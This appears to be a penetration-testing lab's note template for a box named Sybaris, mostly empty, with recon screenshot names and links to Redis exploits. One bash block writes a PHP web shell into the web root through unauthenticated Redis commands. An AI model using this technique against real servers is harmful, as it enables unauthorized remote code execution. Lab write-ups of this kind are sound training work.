# Sybaris Notes

## Data 

IP:  192.168.237.93
OS: CentOS
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Sybaris-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 
- Wpscan there is a Wordpress theme possible rabbit hole

- Find a directory 

#### Timeline of tasks complete

nmapftpanon.png
ftpwritablepubdir.png
robotsandredis.png
composerjson.png
redisisvuln.png
gobuster301s.png
phppathtrav.png

- [Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)](https://www.exploit-db.com/exploits/47195)
- [Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  from [[Reddish-Helped-Through]]
```bash
nc localhost 6379 
flushall
set nvmthetruthwillsetyoufree "<? system($_REQUEST['cmd']); ?>"
config set dbfilename cmd.php
config set dir /var/www/html # err on saving here 
# Then do not be an idiot and save it...
save
```
- https://www.exploit-db.com/exploits/1244
- Find the directory - probably redis is running as a redis user  